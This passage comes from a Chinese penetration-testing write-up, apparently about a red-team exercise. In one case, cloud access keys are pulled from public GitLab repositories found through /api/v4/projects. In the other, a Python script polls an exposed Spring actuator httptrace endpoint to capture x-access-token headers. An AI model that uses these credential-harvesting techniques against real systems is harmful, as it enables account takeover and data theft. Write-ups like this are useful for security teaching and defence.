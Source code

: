 ![img](assets/1701668693-8d034ed749ee6065fdbd2e03ad77f039.png)

## 案例 6、某单位 Gitlab 项目权限误配导致公有云接管

防守单位中某单位的 Gitlab 开放到了公网，但是爆破了一顿，并不存在弱口令和其他 Nday 漏洞

但是经过对 Gitlab 的测试，找到了 Gitlab 中仓库权限的配置问题

```php
/api/v4/projects
```

获取到 gitlab 中部分仓库为 public 状态，非登录态可直接访问

![image.png](assets/1701668693-93de510386b7c85649c762082a8e4b1f.png)  
如图，成功访问到某内部项目

![image-20231120161131396](assets/1701668693-403f6970e5bdb47514987b29e2e19d4e.png)

最终在某项目中成功找到了可用的 ak,sk，完成公有云接管

![img](assets/1701668693-b8740df5d644b118db071a997b6e2db8.png)

## 案例七、某单位系统从一个 actuator httptrace 端点到千万量级敏感信息

挂着 Burp 代理，被动扫描到了一个 actuator 接口，很幸运，开放了 httptrace endpoint，借此我们可以获取到系统中的 http 请求日志

![image-20231122111607300](assets/1701668693-7da0f9b6a31c414b6908af5353a2eda0.png)

但是发现如图上方使用的鉴权 header 并不能直接进入到系统中

刚开始怀疑是鉴权信息的过期时间设置的比较短，写了个脚本监控带有 x-access-token 的新增请求

```python
import requests
import time

monitored_text = ""

# URL
url = "http://xxxxx.xxxxx.com/xxxxxx/actuator/httptrace/"

while True:
    try:
        response = requests.get(url)
        page_text = response.text
        new_content = page_text[len(monitored_text):]

        # 检查新增的内容是否包含 "x-access-token" 字符串
        if "x-access-token" in new_content:
            current_time = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
            print(f"新增的内容包含 'x-access-token' 于 {current_time}")
        monitored_text = page_text
        time.sleep(1)

    except Exception as e:
        print(f"error Info: {e}")
```
